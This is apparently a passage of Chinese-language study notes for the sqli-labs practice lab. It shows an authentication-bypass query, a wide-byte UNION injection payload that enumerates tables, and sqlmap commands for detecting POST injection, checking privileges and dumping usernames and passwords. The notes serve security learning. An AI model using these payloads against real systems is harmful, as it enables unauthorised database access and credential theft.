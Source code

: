 ```select name,pass from tbAdmin where name='admin' or 1=1#' and pass='123456' ```

payload 

	id=0%81'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+

![](Less-32.jpg)

[宽字节注入 参考资料](https://mp.weixin.qq.com/s?__biz=MzI4NjEyMDk0MA==&mid=2649847208&idx=1&sn=f207b86cd17135edd66470175d4a26fe&chksm=f3e41b2bc493923daa7d6401d3f15cb65cfd6be5dcdd61bed6081259dbd59c28e3fd8ae1bd49&scene=21#wechat_redirect)

## sqlmap 一些语法
	
### post注入检测
	
	自动检测forms：
	
	sqlmap -u "http://ip/sqli-labs-master/Less-11/" --forms
	
	指定参数检测：
	
	sqlmap -u "http://ip/sqli-labs-master/Less-11/"  --data "uname=1&passwd=1"
	
	检测 uname 参数是否存在注入：

	sqlmap -u "http://ip/sqli-labs-master/Less-11/" --method POST --data "uname=1&passwd=1" -p uname

#### sqlmap 查看权限

	sqlmap -u url --privileges

#### post注入爆破

	抓包，保存登陆的post请求响应，存储为sql.txt，爆破数据库名：

	sqlmap -r sql.txt --dbs
		
	根据猜解的数据库猜解表：	
	
	 sqlmap -r --tables -D security
	
	根据猜解的表进行猜解表的column

	 sqlmap -r --columns -D security -T users 

	根据字段猜解内容 （--dump会下载到本地）
	
	 sqlmap -r --dump -D security -T users -C "username,password"




## 后记

sql shell 和php的mysql库函数是不同的，mysql_query 是不支持多语句的。

可以打开数据库sql执行日志，然后看slow query日志

sqlmap跑不出来需要手工注入的情况？


```